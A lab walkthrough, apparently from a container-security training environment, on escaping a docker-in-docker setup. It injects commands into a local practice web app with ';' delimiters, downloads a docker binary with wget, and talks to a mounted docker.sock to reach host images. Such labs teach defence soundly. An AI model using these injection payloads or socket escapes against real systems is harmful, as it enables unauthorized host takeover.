





# ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from underlying container runtime. This has been exploited since the early days of the container ecosystem and till today we see this misconfiguration/use cases in the real world. 



By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.

:::info

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::



### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.

:::tip

If you can able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

* By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```


* As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

* It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```



* Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  

:::

* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

* We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```



* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```



* Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation

## 🔖 References

* [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
